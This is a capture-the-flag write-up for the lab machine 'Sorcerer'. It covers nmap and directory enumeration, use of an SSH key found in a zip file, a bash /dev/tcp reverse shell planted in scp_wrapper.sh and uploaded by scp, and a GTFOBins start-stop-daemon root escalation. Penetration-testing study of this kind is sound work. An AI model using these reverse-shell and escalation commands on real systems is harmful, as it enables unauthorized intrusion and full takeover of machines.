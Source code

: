 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.206.100 -T4 -oN Sorcerer.nmap
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h04m29s_001_.png)

The website on 80 port only displays text messages, checking the code to confirm that it is only plain text.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h36m59s_009_.png)

No special directory was found during the scan.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h21m34s_002_.png)

The attempt to log in with common credentials failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h19m21s_003_.png)

Checking the code looks like the page is no actual login function.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h26m45s_006_.png)

If there is no actual login function, there may be hidden directories. The directory scan shows two directories zipfiles and default.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h31m18s_007_.png)

There are four compressed files in the zipfiles directory.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h51m19s_010_.png)

The default directory is the same as the website on port 80. It only displays text messages.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h55m00s_011_.png)

Find ssh folder in max.zip. When trying to login with private key, it is found that ssh login has been forbidden. Only scp can be used.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_23h58m36s_014_.png)

Try to use `scp` to upload and download website directories, but there is nothing special found, and PHP should not be able to use.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h01m13s_015_.png)

Reexamine scp_wrapper.sh in max.zip. After searching, I know that scp_wrapper.sh is used to set a program that does not allow ssh login. We can change scp_wrapper.sh to get the reverse shell.

scp_wrapper.sh: [setting reference](https://serverfault.com/questions/83856/allow-scp-but-not-actual-login-using-ssh) 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_23h56m06s_013_.png)

Modify the source code of scp_wrapper.sh.

```
#!/bin/bash
/bin/bash -l > /dev/tcp/<LHOST>/<LPORT> 0<&1 2>&1
```
Then use the `scp` command to upload wrapper.sh with reverse shell content.

```
scp -i ~/Downloads/id_rsa ~/Documents/OffSecPG/Sorcerer/scp_wrapper.sh max@<RHOST>:/home/max
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h42m14s_016_.png)

Monitor port 80 to execute ssh login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h46m13s_017_.png)

Get the reverse shell connection and local.txt successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h48m49s_019_.png)

#### Privilege Escalation

The linpeas.sh find that /usr/sbin/start-stop-daemon is run by root.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_01h16m54s_020_.png)

Find instructions in [GTFOBins](https://gtfobins.github.io/) to elevate permissions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_15h59m02s_001_.png)

```
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_01h26m46s_022_.png)

